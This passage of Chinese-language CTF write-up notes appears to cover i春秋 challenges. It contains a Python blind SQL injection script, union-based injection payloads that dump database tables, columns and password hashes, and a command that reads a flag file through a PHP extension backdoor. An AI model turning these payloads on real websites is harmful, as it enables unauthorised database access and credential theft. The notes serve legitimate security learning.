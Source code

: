 ```
        # payload = " 'or ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema='login'), {}, 1)) = {}%23".format(i, p)
        # payload = " 'or ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='users'), {}, 1)) = {}%23".format(i, p)
        # payload = " 'or ascii(substr((select p@ssw0rd from users), {}, 1)) = {}%23".format(i, p)
        payload = " 'or ascii(substr(`p@ssw0rd`, {}, 1)) = {}%23".format(i, p)
        # print(p, payload)
        nonce = sha1(payload.replace('%23', '#') + '1')

        data = 'a={}&username={}&password=1&_nonce={}'.format('a'*26209, payload, nonce)
        r = requests.post(url, headers = headers, data=data)
        if len(r.content) == 782:
            temp += chr(p)
            print(temp)
            break
```

最后爆出admin和MyIchunq1uSuperL0ng&&SecurePa$$word，登录后就有了flag

[大佬的视频解析](https://www.ichunqiu.com/course/56483)

## nothing (i春秋)

下载完tar文件，load进docker镜像里，`docker load < backdoor.tar`，启动容器并进入镜像`docker exec -it 65109cea4812 /bash/bin`

![image](http://note.youdao.com/yws/res/881/41FC2E36761B4B598C1668F3DA559FB3)

https://www.ichunqiu.com/course/56341

https://github.com/akamajoris/php-extension-backdoor

post： string=echo `cat /var/www/html/flag.php`



## try

1. 查看源码可以看见/level.php/?name=guest，尝试`?name=guest'and'1'='1`返回正确，`?name=guest'and'1'='2`返回异常，发现注入，`?name=guest'+order+by+1%23`返回正常，`?name=guest'+order+by+2%23`返回失败，说明字段数只有一列

2.爆破
```
?name=-1' union select database()%23 //爆破数据库，ctf

?name=-1' union select group_concat(table_name) from information_schema.tables where table_schema='ctf'%23 //爆破表，token,user

?name=-1' union select group_concat(column_name) from information_schema.columns where table_name='user'%23 //爆破列，username,password,level

?name=-1' union select concat(username,0x23,password,0x23,level) from user limit 0,1%23 //爆破值，password得到一串码
```
$6$rounds=66$nHxhhCl/k9nL5Df47FWdXFZIjRgzV2gXmVdHybywlQ3RIQ/2FvUM/L1y3mgnUBRvJNw9I0Qc5uRbc6EUwxB87/，和reset.php里一致
